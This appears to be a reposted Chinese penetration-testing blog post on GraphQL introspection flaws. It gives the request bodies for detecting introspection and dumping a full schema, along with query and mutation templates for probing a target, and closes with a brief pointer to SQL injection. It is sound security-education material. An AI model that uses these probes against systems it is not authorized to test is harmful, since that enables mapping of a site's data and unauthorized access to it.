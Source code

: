 #  Graphql内审查询漏洞分析   
原创 Hacker  0xh4ck3r   2025-01-18 06:32  
  
### 什么是graphql？  
  
GraphQL  
 是一个用于 API的查询语言，使用基于类型系统来执行查询的服务（类型系统由你的数据定义）。GraphQL  
 并没有和任何特定数据库或者存储引擎绑定，而是依靠你现有的代码和数据支撑。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7B71peL7FQRY0srnG8aC4xbibhnJtwbtUx4l9wJ6kPaS9LzmfI5s54YytYSpophvlUTA1HaaO6iapPdHY65Ebznw/640?wx_fmt=png&from=appmsg "")  
  
image-20230213232716537  
### 漏洞挖掘  
  
在网站与数据库的数据交互过程中，按常理都是mysql、oracle、mssql交互，但是在渗透测试中遇到了graphql数据库，其实跟日常数据库也很像，可以理解为API语句查询数据，这里提一下内审查询是什么，简单来说就是，GraphQL  
内置了接口文档，你可以通过内省的方法获得这些信息，如对象定义、接口参数等信息。  
  
当使用者不知道某个GraphQL  
接口中的类型哪些是可用的，可以通过__schema  
字段来向GraphQL  
查询哪些类型是可用的。  
  
当然在其它网站的渗透中也遇到了修补这个查询的情况，就是可以在配置文件中禁用即可，但是粗心大意的开发者还是不太关注这个问题，就导致了内审查询，通过内审查询，我们可以得到它的数据库划分情况，可以构建graphql语句去查询，同理也可以挖掘sql注入，这个后面会提。  
  
判断是否存在内审查询用以下方法即可：  
  
首先确定数据交互使用的是graphql，在登录或者其它数据交互处抓包即可看到类似：http://target.com/graphql ，以此可以判断是使用了graphql作数据交互的，然后我们只需要修改请求体即可**（有些网站会有鉴权，这个可能会导致后面渗透过程中查询用户信息没法越权，比较恶心，此处渗透测试的目标就是有鉴权， ~_~ ）**  
，如下：  
```
{"query":"{\r\n  __schema {\r\n    types {\r\n      name\r\n    }\r\n  }\r\n}\r\n","variables":null}

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7B71peL7FQRY0srnG8aC4xbibhnJtwbtUGfg3DDKuK8KeEdvR6bObqJHBTo6gCQNQDhAsUiaq9pXBibfmgaPbK8ug/640?wx_fmt=png&from=appmsg "")  
  
image-20230213234030424  
  
如果出现如上图所示，查询成功的话，就说明存在内审查询，继续往下查询：  
```
{"query":"\n    query IntrospectionQuery {\r\n      __schema {\r\n        queryType { name }\r\n        mutationType { name }\r\n        subscriptionType { name }\r\n        types {\r\n          ...FullType\r\n        }\r\n        directives {\r\n          name\r\n          description\r\n          locations\r\n          args {\r\n            ...InputValue\r\n          }\r\n        }\r\n      }\r\n    }\r\n\r\n    fragment FullType on __Type {\r\n      kind\r\n      name\r\n      description\r\n      fields(includeDeprecated: true) {\r\n        name\r\n        description\r\n        args {\r\n          ...InputValue\r\n        }\r\n        type {\r\n          ...TypeRef\r\n        }\r\n        isDeprecated\r\n        deprecationReason\r\n      }\r\n      inputFields {\r\n        ...InputValue\r\n      }\r\n      interfaces {\r\n        ...TypeRef\r\n      }\r\n      enumValues(includeDeprecated: true) {\r\n        name\r\n        description\r\n        isDeprecated\r\n        deprecationReason\r\n      }\r\n      possibleTypes {\r\n        ...TypeRef\r\n      }\r\n    }\r\n\r\n    fragment InputValue on __InputValue {\r\n      name\r\n      description\r\n      type { ...TypeRef }\r\n      defaultValue\r\n    }\r\n\r\n    fragment TypeRef on __Type {\r\n      kind\r\n      name\r\n      ofType {\r\n        kind\r\n        name\r\n        ofType {\r\n          kind\r\n          name\r\n          ofType {\r\n            kind\r\n            name\r\n            ofType {\r\n              kind\r\n              name\r\n              ofType {\r\n                kind\r\n                name\r\n                ofType {\r\n                  kind\r\n                  name\r\n                  ofType {\r\n                    kind\r\n                    name\r\n                  }\r\n                }\r\n              }\r\n            }\r\n          }\r\n        }\r\n      }\r\n    }\r\n  ","variables":null}

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7B71peL7FQRY0srnG8aC4xbibhnJtwbtUg91rJ6DqGGfywSMKxuaNJhccnaA3OpDVDX5t2icLKLlicX3esmE6JLicw/640?wx_fmt=png&from=appmsg "")  
  
image-20230213234112187  
  
然后我们复制上图返回结果中的响应体去下方网站内获取数据库结构：  
  
GraphQL Voyager (ivangoncharov.github.io)  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7B71peL7FQRY0srnG8aC4xbibhnJtwbtUhJSTWdYHA4Ll4dPycIN0554hSiapePgWGRSfM3HbT2ia0wic0gnXMGiaHQ/640?wx_fmt=png&from=appmsg "")  
  
image-20230213234303754  
  
然后点击display即可得到数据库结构，接下来我们根据数据库结构去构造查询语法或者修改语法即可  
  
这里为了方便之后做测试，归类一下：（其中test为库名或者说是类名，因为其 表方法跟常见数据库还是有些差别的）  
  
查询语法格式：  
```
{"query":"{\n          test(id:2){\n    name\n    id\n    telephone\n  }\n        }"}

```  
  
修改语法格式：  
```
{"query":"mutation test($arg1:String!,$arg2:String!){\n  \t\tuploadFile(\n        input:{\n          arg1:$arg1,\n          arg2:$arg2\n        }\n        )}","variables":{"arg1":"xxxx","arg2":"xxxx"},"operationName":"test"}

```  
### sql注入  
  
这里引用大佬的图，非常简单明了  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7B71peL7FQRY0srnG8aC4xbibhnJtwbtUQhlNUhBdicCCBibsW9yytEPdvjnwMibSSYqTScsvicAkpjJkic3NdouwxBg/640?wx_fmt=png&from=appmsg "")  
  
image-20230213235821923  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7B71peL7FQRY0srnG8aC4xbibhnJtwbtUqiaZ0ct13aOXPQkoK7pa26zjcxrIiaNpYdr9ldpSxfejJR1321Xecfvw/640?wx_fmt=png&from=appmsg "")  
  
image-20230213235836269  
  
后面还有一些利用点和漏洞点，可以查看大佬文章：  
渗透测试之graphQL_Sp4rkW的博客-CSDN博客_graphql漏洞  
  
  
